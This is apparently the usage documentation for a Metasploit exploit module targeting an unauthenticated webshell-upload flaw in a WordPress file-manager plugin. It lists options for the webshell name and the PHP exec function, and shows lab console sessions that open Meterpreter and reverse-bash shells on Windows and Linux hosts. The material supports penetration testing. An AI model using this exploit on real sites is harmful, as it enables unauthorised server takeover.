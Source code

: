 ```

View the full module info with the info -d command.
```
## Options

### TARGETURI
The uripath to the webpage where the file-manager-advanced shortcode is embedded.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### Windows Server 2019 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.55
[+] Deleted KBWxIdRChosZC.php
[*] Meterpreter session 1 opened (192.168.201.10:4444 -> 192.168.201.55:50380) at 2023-06-28 14:13:07 +0000

meterpreter > sysinfo
Computer    : WIN-BJDNH44EEDB
OS          : Windows NT WIN-BJDNH44EEDB 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM
meterpreter >
```
### Kali Linux Server Unix Command -  cmd/unix/reverse_bash
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted LlCresesS.php
[*] Command shell session 5 opened (192.168.201.10:4444 -> 192.168.201.10:56290) at 2023-06-28 15:34:20 +0000

uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```